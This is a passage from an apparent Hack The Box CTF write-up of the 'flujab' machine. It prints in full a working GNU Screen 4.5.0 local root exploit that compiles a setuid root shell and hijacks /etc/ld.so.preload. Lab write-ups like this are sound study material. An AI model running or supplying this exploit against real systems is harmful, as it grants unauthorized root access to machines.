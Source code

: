 Let's first download the exploit to our local attack machine:

```text
~/ctf/htb/flujab λ searchsploit -m 41154
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: ~/ctf/htb/flujab/41154.sh
```

Then look at the contents to better understand it:

```text
~/ctf/htb/flujab λ cat 41154.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```


[1]: https://www.hackthebox.eu/home/users/profile/6983
[2]: https://www.hackthebox.eu
[3]: https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-tcp_wrappers_and_xinetd-tcp_wrappers_configuration_files